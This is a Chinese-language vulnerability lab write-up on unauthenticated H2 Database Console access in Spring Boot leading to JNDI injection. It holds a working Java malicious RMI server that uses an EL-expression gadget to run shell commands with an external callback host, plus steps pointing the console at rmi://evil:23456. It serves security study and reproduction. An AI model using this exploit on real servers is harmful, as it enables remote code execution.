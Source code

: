 # H2 Database Console 未授权访问

H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

参考链接：

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## 漏洞环境

执行如下命令启动一个Springboot + h2database环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/h2-console/`即可查看到H2 database的管理页面。

## 漏洞复现

目标环境是Java 8u252，版本较高，因为上下文是Tomcat环境，我们可以参考《[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)》，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}

```

我们可以借助这个小工具[JNDI](https://github.com/JosephTribbianni/JNDI)简化我们的复现过程。

首先设置JNDI工具中执行的命令为`touch /tmp/success`：

![](3.png)

然后启动`JNDI-1.0-all.jar`，在h2 console页面填入JNDI类名和URL地址：

![](1.png)

其中，`javax.naming.InitialContext`是JNDI的工厂类，URL `rmi://evil:23456/BypassByEL`是运行JNDI工具监听的RMI地址。

点击连接后，恶意RMI成功接收到请求：

![](2.png)

`touch /tmp/success`已成功执行：

![](4.png)